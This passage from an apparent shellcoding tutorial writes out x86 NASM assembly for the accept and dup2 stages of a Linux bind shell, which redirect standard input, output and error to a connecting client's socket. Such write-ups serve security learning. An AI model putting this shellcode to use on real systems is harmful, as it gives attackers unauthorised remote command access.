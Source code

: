 When accepting a new connection we do not want any information regarding the client. So, referring to the man page:

> When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.

So the call to sys_accept() goes like this:
```
sys_accept(sockfd, 0, 0)
```
The assembly code becomes:
```nasm
		; EAX = 0x66			; sys_socketcall()
		; EBX = 0x5			; sys_accept()
		; ECX = Pointer to args of sys_accept()

		mov al, 0x66			; sys_socketcall()
		inc ebx				; EBX is 4, so just add 1 to it = 5;  sys_accept()
		
		push edi			; addrlen = EDI = 0
		push edi			; addr	  = EDI = 0
		push esi			; ESI has our sockfd
		mov ecx, esp
		
		int 0x80
```
### Redirect stdin, stdout, stderr with SYS_DUP2
Now that we are connected to the client, we need to redirect ```stdin, stdout, stderr``` to the client socket file descriptor.
```
stdin 	= 0
stdout 	= 1
stderr 	= 2
```
The man page entry for ```dup2``` is as follows:
```
int dup2(int oldfd, int newfd);
```
The ```oldfd``` is our client socket file descriptor and newfd is ```stdin, stdout, stderr```. So, we need to call dup2 as follows:
```
dup2(clientfd, 0)
dup2(clientfd, 1)
dup2(clientfd, 2)
```
As of now, register EAX has the client socket file descriptor. It should be moved to EBX. The system call number for ```sys_dup2``` is ```0x3f``` and this value should be moved in to EAX for each ```dup2``` call. The assembly code becomes:
```nasm
		
        ;EXA 	= 0x3f
        ;EBX	= oldfd	= clientfd
        ;ECX	= newfd	= 0, 1, 2

		xchg ebx,eax				; save the clientfd in ebx
		
        	xor eax, eax
		xor ecx, ecx
		mov cl,0x2

		dup_loop:
			mov al, 0x3f			; sys_dup2()
			int 0x80
			dec ecx				; 2, 1, 0
			jns dup_loop			; loop until SF is set
```
